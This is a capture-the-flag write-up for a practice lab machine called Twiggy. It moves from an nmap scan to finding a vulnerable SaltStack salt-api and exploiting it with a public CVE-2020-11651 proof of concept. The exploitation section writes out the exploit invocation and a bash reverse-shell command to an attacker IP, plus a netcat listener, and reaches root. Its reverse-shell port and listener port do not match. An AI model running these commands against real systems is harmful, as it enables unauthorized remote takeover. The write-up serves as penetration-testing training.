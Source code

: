 <h2>Recon</h2>
  
  <h3>PortScan</h3>
  
  >command: sudo nmap -A -p- -T4 -v
```
# Nmap 7.93 scan initiated Sat Jan  7 10:06:55 2023 as: nmap -A -v -T4 -p- -oN twiggy 192.168.242.62
Nmap scan report for 192.168.242.62
Host is up (0.44s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 447d1a569b68aef53bf6381773165d75 (RSA)
|   256 1c789d838152f4b01d8e3203cba61893 (ECDSA)
|_  256 08c912d97b9898c8b3997a19822ea3ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-favicon: Unknown favicon MD5: 11FB4799192313DD5474A343D9CC0A17
|_http-title: Home | Mezzanine
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (application/json).
|_http-server-header: nginx/1.16.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 3.X|4.X|5.X (89%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4.4 cpe:/o:linux:linux_kernel:5.1
Aggressive OS guesses: Linux 3.10 - 3.12 (89%), Linux 4.4 (89%), Linux 4.9 (89%), Linux 3.10 - 3.16 (86%), Linux 3.10 - 4.11 (85%), Linux 3.11 - 4.1 (85%), Linux 3.2 - 4.9 (85%), Linux 5.1 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.003 days (since Sat Jan  7 10:08:04 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   698.61 ms 192.168.49.1
2   698.68 ms 192.168.242.62

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan  7 10:12:07 2023 -- 1 IP address (1 host up) scanned in 312.17 seconds
```

We have 6 ports opened here, port 22 which runs ssh, port 53 which runs domain, port 80,8000 which runs http, port 4505,4506 which runs zmtp. We won't waste our time on port 80 because I din't find anything interesting there. This means our enumeration will be focused more on port 8000.


<h2>Enumeration</h2>
  Going to the webpage should get you something like this

![image](https://user-images.githubusercontent.com/126628077/222027526-326df050-f1bc-47c9-8d0e-e84616a9ad5e.png)

Lets try checking the header using curl

>command: curl -v http://192.168.87.62:8000/

![image](https://user-images.githubusercontent.com/126628077/222029279-e15a72ea-5f99-463c-83f5-3d482a21fc86.png)

From the screenshot above we can see that it is running salt-api/3000-i, checking it up online I found this

![image](https://user-images.githubusercontent.com/126628077/222030012-7a1b8f63-701e-4ee3-950e-80e5b5c4c8b2.png)

So,this means there is an exploit for it

![image](https://user-images.githubusercontent.com/126628077/222030472-1629245e-19da-4672-85e7-1db9ea7fa15c.png)

>Link:https://github.com/jasperla/CVE-2020-11651-poc

Now, lets clone this repository and install the necessary requirements

```
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Twiggy]
└─$ git clone https://github.com/jasperla/CVE-2020-11651-poc
Cloning into 'CVE-2020-11651-poc'...
remote: Enumerating objects: 30, done.
remote: Counting objects: 100% (30/30), done.
remote: Compressing objects: 100% (20/20), done.
remote: Total 30 (delta 12), reused 26 (delta 10), pack-reused 0
Receiving objects: 100% (30/30), 8.61 KiB | 8.61 MiB/s, done.
Resolving deltas: 100% (12/12), done.
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Twiggy]
└─$ cd CVE-2020-11651-poc 
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/…/PG/pg_practice/Twiggy/CVE-2020-11651-poc]
└─$ pip3 install salt
Defaulting to user installation because normal site-packages is not writeable
Requirement already satisfied: salt in /usr/local/lib/python3.11/dist-packages (3005.1)
Requirement already satisfied: Jinja2 in /usr/lib/python3/dist-packages (from salt) (3.0.3)
Requirement already satisfied: jmespath in /usr/local/lib/python3.11/dist-packages (from salt) (1.0.1)
Requirement already satisfied: msgpack!=0.5.5,>=0.5 in /usr/lib/python3/dist-packages (from salt) (1.0.3)
Requirement already satisfied: PyYAML in /usr/lib/python3/dist-packages (from salt) (6.0)
Requirement already satisfied: MarkupSafe in /usr/lib/python3/dist-packages (from salt) (2.1.1)
Requirement already satisfied: requests>=1.0.0 in /usr/lib/python3/dist-packages (from salt) (2.28.1)
Requirement already satisfied: distro>=1.0.1 in /usr/lib/python3/dist-packages (from salt) (1.8.0)
Requirement already satisfied: contextvars in /usr/local/lib/python3.11/dist-packages (from salt) (2.4)
Requirement already satisfied: psutil>=5.0.0 in /usr/local/lib/python3.11/dist-packages (from salt) (5.9.4)
Requirement already satisfied: pyzmq<=20.0.0 in /usr/local/lib/python3.11/dist-packages (from salt) (20.0.0)
Requirement already satisfied: pycryptodomex>=3.9.8 in /usr/lib/python3/dist-packages (from salt) (3.11.0)
Requirement already satisfied: immutables>=0.9 in /usr/local/lib/python3.11/dist-packages (from contextvars->salt) (0.19)

```

Now that we are done with that, lets go ahead and exploit this vulnerability


<h2>Exploitation</h2>
So, we are going to run this exploit and we see what happens

>command:python3 exploit.py --master 192.168.223.62  --exec whoami 

![image](https://user-images.githubusercontent.com/126628077/222032537-6f4f6ee1-5ba2-40ed-950f-5c7ac6a35815.png)

since the "whoami" command got executed successfully, this means we can go ahead to create a reverse shell so we can get a shell back on our kali

We'll be using 2 different terminals, on the first terminal you run the exploit while on the second terminal you set up your netcat listener

>command (first termminal):python3 exploit.py --master 192.168.87.62  --exec "bash -i >& /dev/tcp/192.168.49.87/1234 0>&1"
>command (second terminal):rlwrap nc -lvnp 80

_Ensure you change the IP to your IP address_

![image](https://user-images.githubusercontent.com/126628077/222035586-a0fbc95a-1fea-4299-b39f-fd75b6802081.png)

![image](https://user-images.githubusercontent.com/126628077/222035626-72755ff8-ef16-4f28-9180-bf900940d35e.png)

Boom!!! We got a shell as root.

Now that we have gotten the root shell our work is done





















